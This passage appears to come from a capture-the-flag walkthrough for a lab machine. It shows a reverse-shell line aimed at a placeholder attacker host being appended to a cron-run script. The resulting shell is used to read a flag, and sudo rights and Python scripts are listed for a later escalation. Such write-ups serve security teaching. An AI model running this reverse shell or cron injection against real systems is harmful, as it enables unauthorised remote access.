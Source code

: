 `echo '/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1' >> cow.sh`

We just then wait for the cron job to run and we should get a shell

```
mat@watcher:~$ id
id
uid=1002(mat) gid=1002(mat) groups=1002(mat)
mat@watcher:~$ 
```

We can retrieve the flag

```
mat@watcher:~$ cat flag_5.txt
cat flag_5.txt
FLAG{live_by_the_cow_die_by_the_cow}
```

another note under matt's dir

```
mat@watcher:~$ cat note
cat note.txt 
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

Running `sudo -l`

```
mat@watcher:~$ sudo -l
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

Going inside the `script` directory we can see 2 python scripts.

```
mat@watcher:~/scripts$ cat cmd
cat cmd.py 
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
mat@watcher:~/scripts$ cat will
cat will_script.py 
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()
```